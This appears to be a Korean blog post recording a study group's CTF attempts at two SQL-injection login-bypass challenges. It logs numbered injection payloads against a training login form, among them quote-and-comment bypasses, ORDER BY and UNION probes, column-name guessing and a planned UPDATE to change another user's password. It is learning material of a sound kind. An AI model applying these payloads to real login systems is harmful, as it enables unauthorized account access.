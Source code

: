 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

tags: [TIL, WEB]
---
```


# Login Bypass 3
1. 
id: doldol
pw: dol1234
-> login.php에서 index.php로 302
-> 서버측에서 웹페이지 이동시켜준다
2. 
id: doldol' and '1' = '1
pw: dol1234
-> O
-> sql injection 가능하다
-> query에서 괄호가 안 쓰였어
3. 
id: doldol' or '1' = '1
pw: dol1234
-> X
-> or 필터링이 되어 있는 걸까요?
4. 
id: doldolor
pw: dol1234
-> X
-> 'or' 필터링 X
5. 
id: doldol or
pw: dol1234
-> X
-> ' or' 필터링 X
6. 
id: doldol or 
pw: dol1234
-> X
-> ' or ' 필터링 X
7. 
id: doldolor '1' = '1
pw: dol1234
-> X
-> "or '1' = '1" 필터링 X
8. 
id: doldol'or'1'='1
pw: dol1234
-> X
-> 띄어쓰기 관련도 아닌가봐요
9. 
id: doldol'and'1'='1
pw: dol1234
-> O
-> or이랑 관련이 있는 건데...
10. 
id: doldol'or'1'='1'#
pw: dol1234
-> X
11. 
id: doldol'#
pw: dol1234
-> O
12. 
id: doldol'#
pw: asdf
-> X
-> 식별, 인증 분리 or 줄을 새로 넘겼거나
13. 
id: doldol' order by 1 #
pw: dol1234
-> O
14. 
id: doldol' order by 1, 2 #
pw: dol1234
-> O
13. 
id: doldol' order by 1, 2, 3 #
pw: dol1234
-> X
-> column은 ID, PW 두 개만 있네요
14. 
id: doldol' union select 1, 2 #
pw: dol1234
-> O
-> union은 안 막혀있네요
-> 근데 data를 볼 수 있는 곳이 없잖아요
15. 
id: doldol' union select database(), 2 #
pw: dol1234
-> O
16. 
id: doldol
pw: dol1234'and'1'='1
-> X
-> if input_pw == DB['pw']: 통과
17.
UPDATE sqli_1 SET UserId = 'normaltic3', Password = 'asdf' where UserId = 'normaltic3';
-> table name을 몰라
-> 비밀번호를 바꿀 수 없어

# Login Bypass 4
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-10.png?raw=true)
-> login.php과 logout.php에서 302 응답 코드가 보인다.
-> 다른 페이지로 이동시켜준다는 뜻
2. 
id: doldol' and '1' = '1
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> sql injection 가능하다
-> 괄호 X
3. 
id: doldol'#
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 주석 처리 가능
4. 
id: doldol'#
pw: asdf
-> X
-> 줄바꿈을 했거나
-> 식별과 인증을 분리했거나
5. 
id: doldol' or '1' = '1
pw: asdf
-> 식별과 인증을 분리했네
    -> normaltic4의 비밀번호를 바꾸거나
        -> update: table과 column 이름 필요
        update [table] set [col1] = val1, ... where condition;
    -> normaltic4의 비밀번호를 확인하거나
        -> union: 모든 결과값을 확인할 수 있어야 함
-> 여기도 column이 name일까?
6. 
id: doldol' and name = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> column이 name이네?
-> 그러면 column 개수도 똑같나?
7. 
id: doldol' order by 1, 2, 3, 4, 5, 6 #
pw: dol1234
-> X
8. 
id: doldol' order by 1, 2 #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
9. 
id: doldol' order by 1, 2, 3 #
pw: dol1234
-> X
-> column 개수가 3개네
-> 그러면 딱 id랑 pw만 있네
10. 
id: doldol' and Password = 'dol1234
pw: dol1234
-> x
11. 
id: doldol' and pass = 'dol1234
pw: dol1234
-> x
12. 
id: doldol|normaltic4
pw: dol1234
-> X
-> 정규식에서 |가 or을 의미한다고 해서 해봤는데 안되네
13. 
id: doldol' union select 1, 2' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 데이터를 볼 수가 없네
14. 
알고 있는 정보를 정리해 보자
1. 식별, 인증 분리 로직
2. column은 2개 -> id, pw
3. doldol/dol1234, normaltic4/?
select * from table where id = id
if db_pw = input_pw:
    통과
15. 
id: doldol' and UserId = 'doldol' #
pw: dol1234
-> x
16. 
id: doldol' and userId = 'doldol' #
pw: dol1234
-> x
17. 
id: doldol' and userid = 'doldol' #
pw: dol1234
-> x
18. 
id: doldol' and id = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
19. 
id: doldol' or id = 'normaltic4' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> id는 normaltic4, pw는 doldol꺼 차용해서 로그인할 수 있을 줄 알았는데 doldol씨네
-> 순서 차이?
20. 
id: normaltic4' or id = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> id랑 pw가 같은 계정으로 로그인되나봐
select * from table where id = id
if db_pw = input_pw:
    통과한 아이디로 로그인
21. 
id: normaltic4'
pw: ' or '1' = '1
-> x
-> 역시나 안 되고
22. 
id: doldol
pw: dol1234' and pw = 'dol1234' #
-> X
23. 
id: doldol' and pw = 'dol1234' #
pw: dol1234
-> x
23. 
id: doldol' and pass = 'dol1234' #
pw: dol1234
-> x
23. 
id: doldol' and UserPass = 'dol1234' #
pw: dol1234
-> x
-> pw, passwd, password, pass, hash
24. 
select * from table where id = id;
update table set pw = '1234' where id = 'normaltic4' #
if db_pw = input_pw:
    통과

-> union 값을 넣어줄 장소를 마련해줄 수는 없을까?